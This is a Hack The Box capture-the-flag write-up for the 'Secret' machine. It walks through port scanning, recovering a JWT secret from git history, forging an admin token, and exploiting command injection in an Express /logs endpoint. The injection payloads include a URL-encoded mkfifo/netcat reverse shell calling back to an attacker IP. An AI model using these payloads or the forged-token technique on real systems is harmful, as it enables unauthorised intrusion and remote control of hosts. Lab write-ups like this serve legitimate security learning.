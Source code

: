 ```yaml
---
title: Secret - easy HTB
date: 2023-12-10 10:11:53 +/-0800
categories: [writeup, HackTheBox]
writeup: :title
permalink: /secret
tags: [Web]     # TAG names should always be lowercase
---
```


![secret](assets/secret/secret.png)

## **Scanning :**

Enumerate open ports with nmap : `nmap 10.10.11.120 -sC -sV -T4`

```bash
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:af:61:44:10:89:b9:53:f0:80:3f:d7:19:b1:e2:9c (RSA)
|   256 95:ed:65:8d:cd:08:2b:55:dd:17:51:31:1e:3e:18:12 (ECDSA)
|_  256 33:7b:c1:71:d3:33:0f:92:4e:83:5a:1f:52:02:93:5e (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: DUMB Docs
3000/tcp open  http    Node.js (Express middleware)
|_http-title: DUMB Docs
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

All ports : `nmap 10.10.11.120 -sV -T4 -p-`

```bash
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
3000/tcp open  http    Node.js (Express middleware)
```

## **Enumeration:**

Before walk on the app run gobuster BF : `gobuster dir -u http://10.10.11.120/ -w /usr/share/wordlists/dirb/big.txt`

```bash
/api                  (Status: 200) [Size: 93]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/docs                 (Status: 200) [Size: 20720]
/download             (Status: 301) [Size: 183] [--> /download/]
```

So we have on web app : 

![webapp](assets/secret/webapp.png)

you can download the source code of the here : 

![Untitled](assets/secret/download-archive.png)

on the file you can find a .git project use `git log` command to enumerate every commit. 

In the first We can leaked the Token secret to sign JWT, this is in the first commit : 

![Untitled](assets/secret/commit.png)

## **Exploit Web app:**

in the source code we can see that it is mentioned a user "theadmin" if we log on we will be able to have access to the private account: 

```java
router.get('/priv', verifytoken, (req, res) => {
   // res.send(req.user)

    const userinfo = { name: req.user }

    const name = userinfo.name.name;
    
    if (name == 'theadmin'){
        res.json({
            creds:{
                role:"admin", 
                username:"theadmin",
                desc : "welcome back admin,"
            }
        })
    }
    else{
        res.json({
            role: {
                role: "you are normal user",
                desc: userinfo.name.name
            }
        })
    }
})
```

For this we must create a new jwt that we will be able to falsify because we have the private key of signature. 

First launch request to get JWT :  

```java
curl -X POST -d '{"name": "tototo", "email": "[toto@toto.com](mailto:toto@toto.com)", "password": "Pass123!"}' -H "Content-Type: application/json" http://secret.htb:3000/api/user/register
```

Log your self on the app and get your first JWT :

```java
curl -X POST -d ' {"email": "[toto@toto.com](mailto:toto@toto.com)","password": "Pass123!"}' -H "Content-Type: application/json" http://secret.htb:3000/api/user/login 
```

Modifie the new JWT to “theadmin” do not forget the signed with the key find rather :

![jwt](assets/secret/jwt-theadmin.png)

Send last request to Gain admin acces :

```java
curl -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NTcyMjQxNTg5N2E5NjA0NTk2YzcxYmMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRvdG9AdG90by5jb20iLCJpYXQiOjE3MDE5NzkxNjd9.rh26y3V_J_IDvfaY5CXWFli5qsPMfGsrDPkA2-2iWgE" http://secret.htb:3000/api/priv
```

But the code tells us that there is a function in another API page (/logs). view that we are theadmin we can interact with:

```java
curl -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NTcyMGE0MjVlZTkxMTA0NjFkM2RmMTkiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRvdG9AdG90by5jb20iLCJpYXQiOjE3MDE5NzI2Nzh9.91ODv0rlBAsFOO9FsayzUiRCzBW7YvGB3wSDFZafWyw" http://secret.htb:3000/api/logs
```

the app uses the `exec` function to execute a specific Git command. The Git command executed is git log --oneline followed by the file name extracted from the query (${file}). The result of this Git command is retrieved in the output variable.

```java
router.get('/logs', verifytoken, (req, res) => {
    const file = req.query.file;
    const userinfo = { name: req.user }
    const name = userinfo.name.name;
    
    if (name == 'theadmin'){
        const getLogs = `git log --oneline ${file}`;
        exec(getLogs, (err , output) =>{
            if(err){
                res.status(500).send(err);
                return
            }
            res.json(output);
        })
    }
```

we can try to integrate with the file parameter : 

```java
curl -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NTcyMGE0MjVlZTkxMTA0NjFkM2RmMTkiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRvdG9AdG90by5jb20iLCJpYXQiOjE3MDE5NzI2Nzh9.91ODv0rlBAsFOO9FsayzUiRCzBW7YvGB3wSDFZafWyw" http://secret.htb:3000/api/logs?file=test

#output
{"killed":false,"code":128,"signal":null,"cmd":"git log --oneline test"}
```

Let’s try to make a basic command injection in this parameter:

```bash
curl -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NTcyMGE0MjVlZTkxMTA0NjFkM2RmMTkiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRvdG9AdG90by5jb20iLCJpYXQiOjE3MDE5NzI2Nzh9.91ODv0rlBAsFOO9FsayzUiRCzBW7YvGB3wSDFZafWyw" 'http://secret.htb:3000/api/logs?file=|id' 

#output
"uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)\n"
```

BiMMGO we have succed inject commande now lets try to gain reverse shell, so run your listener and run request:
```bash
# set up listener
pwncat-cs :1234

# reverse shell
curl -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NTcyMjQxNTg5N2E5NjA0NTk2YzcxYmMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRvdG9AdG90by5jb20iLCJpYXQiOjE3MDE5NzkxNjd9.rh26y3V_J_IDvfaY5CXWFli5qsPMfGsrDPkA2-2iWgE" 'http://secret.htb:3000/api/logs?file=|rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.10.16.5%201234%20%3E%2Ftmp%2Ff'
```

